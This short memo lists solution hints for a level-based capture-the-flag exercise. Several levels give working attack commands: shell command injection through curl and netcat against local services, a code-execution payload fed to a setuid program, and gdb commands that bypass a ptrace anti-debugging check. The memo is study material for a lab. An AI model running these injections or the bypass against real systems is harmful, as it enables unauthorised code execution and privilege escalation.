 ## Memento

### Level00:

Code cesar

### Leve01:

John the Ripper

### Level02:

wireshark

### Level03:

echo

### Level04:

Injection de code avec
curl 'localhost:4747/?x=$(getflag)'


### Level05:

cron

### Level06:

echo '[x {${exec(getflag)}}]' > /tmp/get_token
./level06 /tmp/get_token

### Level07:

export LOGNAME

### Level08:

t0ken

### Level09:

aaaa -> abcd 
python decode.py $(cat token)

### Level10

server.py & liens symboliques

### Level11

nc localhost 5151
 $(getflag) |wall

### Level12:

'getflag | wall' > /tmp/GETFLAG
chmod 755
curl '127.0.0.1:4646?x=$(/*/GETFLAG)'

### Level13:

gdb getuid()

### Level14

suppression de ptrace (bypassing ptrace)
catch syscall ptrace
commands 1
set $eax=0
continue
end

idem Level13

